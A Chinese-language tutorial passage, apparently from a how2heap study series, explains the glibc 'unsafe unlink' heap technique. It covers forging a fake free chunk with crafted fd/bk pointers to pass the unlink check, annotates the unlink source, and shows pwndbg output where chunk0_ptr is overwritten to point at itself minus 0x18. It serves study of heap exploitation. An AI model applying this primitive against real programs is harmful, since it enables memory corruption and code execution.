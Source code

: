 ![1566139357955](/img/how2heap/unlink5.png)

通过上述设置后，成功在一个in use chunk Q中伪造了一个空闲chunk F，并设置了chunk F的fd和bk字段，以绕过对F进行unlink时进行的防护机制。

接下来要对chunk1 prt进行free【`free(chunk1_ptr);`】，从而调用unlink（F），对F位置的定位是通过prev size确定的，也就是说是调用`unlink（0x603090-0x80=0x603010）`，是对chunk头地址进行unlink。

现在我们分析，unlink操作对内存的影响：

```c++
FD = P->fd; //获取chunk F的fd字段，即FD=&chunk0_ptr-(sizeof(uint64_t)*3);
BK = P->bk; //获取chunk F的bk字段，即BK=&chunk0_ptr-(sizeof(uint64_t)*2);
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                     
	 malloc_printerr (check_action, "corrupted double-linked list", P, AV);  
else {                                                                    
	FD->bk = BK;//FD->bk=*(&chunk0_ptr-3*8+3*8)=&chunk0_ptr-2*8,即*(&chunk0_ptr)=&chunk0_ptr-2*8.
	BK->fd = FD;//FD->bk=*(&chunk0_ptr-2*8+2*8)=&chunk0_ptr-3*8
    //即*(&chunk0_ptr)=&chunk0_ptr-3*8,也就是说最终把在chunk0_ptr的存储地址[&]的内容[*]修改为&chunk0_ptr-3*8，也就是让chunk0_ptr指针指向chunk0_ptr存储地址低三个内存单元的位置【&chunk0_ptr-3*8】
```

即chunk0_ptr存储地址0x602070下写入0x602070-3*8=0x602058，也就使得chunk0_ptr[0]指向0x602058，chunk0_ptr[3]指向0x602070，结果如下：

```assembly
pwndbg> x/10xg 0x602050
0x602050:	0x0000000000000000	0x0000000000000000
0x602060 <stderr@@GLIBC_2.2.5>:	0x00007ffff7dd2540	0x0000000000000000
0x602070 <chunk0_ptr>:	0x0000000000602058	0x0000000000000000 
#可以看到chunk0_ptr的存储地址下的值为0x0000000000602058
0x602080:	0x0000000000000000	0x0000000000000000
0x602090:	0x0000000000000000	0x0000000000000000
```
